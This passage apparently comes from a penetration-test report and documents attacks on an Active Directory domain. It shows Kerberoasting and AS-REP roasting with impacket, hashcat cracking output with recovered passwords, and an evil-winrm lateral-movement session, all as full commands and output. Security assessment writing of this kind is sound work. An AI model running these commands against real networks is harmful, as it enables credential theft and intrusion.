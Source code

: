 **Kerberoasting Evidence**
```bash
# Service Ticket Request
impacket-GetUserSPNs corp.vanguardfs.local/jthompson:'Summer2024!' -dc-ip 10.50.2.11 -request

ServicePrincipalName                          Name         MemberOf
--------------------------------------------  -----------  --------
MSSQLSvc/VFS-FS-01.corp.vanguardfs.local:1433 sql_service  CN=Server Operators

$krb5tgs$23$*sql_service$CORP.VANGUARDFS.LOCAL$MSSQLSvc/VFS-FS-01*$a1b2c3d4...

# Hash Cracking
hashcat -m 13100 kerberoast.txt rockyou.txt -r best64.rule

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Time.Started.....: Mon Sep 14 16:30:15 2025 (4 mins, 37 secs)

Recovered........: 1/1 (100.00%)
Candidates.#1....: SQLSvc#2024!Backup <- CRACKED

# EVIDENCE: 19-character password cracked in 4 minutes 37 seconds
# REASON: Predictable pattern (ServiceType#Year!Description)
```

**AS-REP Roasting Evidence**
```bash
# AS-REP Hash Request (No pre-auth required)
impacket-GetNPUsers corp.vanguardfs.local/ -dc-ip 10.50.2.11 -usersfile users.txt -format hashcat

$krb5asrep$23$backup_admin@CORP.VANGUARDFS.LOCAL:a8f2c1d5e6f7g8h9...

# Cracking Result
hashcat -m 18200 asrep_hash.txt rockyou.txt

Recovered........: 1/1 (100.00%)
Candidates.#1....: BackupPass2023!

# VULNERABILITY: User has "Do not require Kerberos preauthentication" enabled
```

---

### 🔀 Phase 4: Lateral Movement Evidence

**WinRM Access**
```bash
# Evil-WinRM Connection
evil-winrm -i 10.50.1.78 -u jthompson -p 'Summer2024!'

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\jthompson\Documents> whoami
vanguardfs\jthompson

*Evil-WinRM* PS C:\Users\jthompson\Documents> whoami /groups

GROUP INFORMATION
-----------------
Group Name                             Type
====================================== ================
Everyone                               Well-known group
BUILTIN\Remote Desktop Users           Alias
BUILTIN\Users                          Alias
```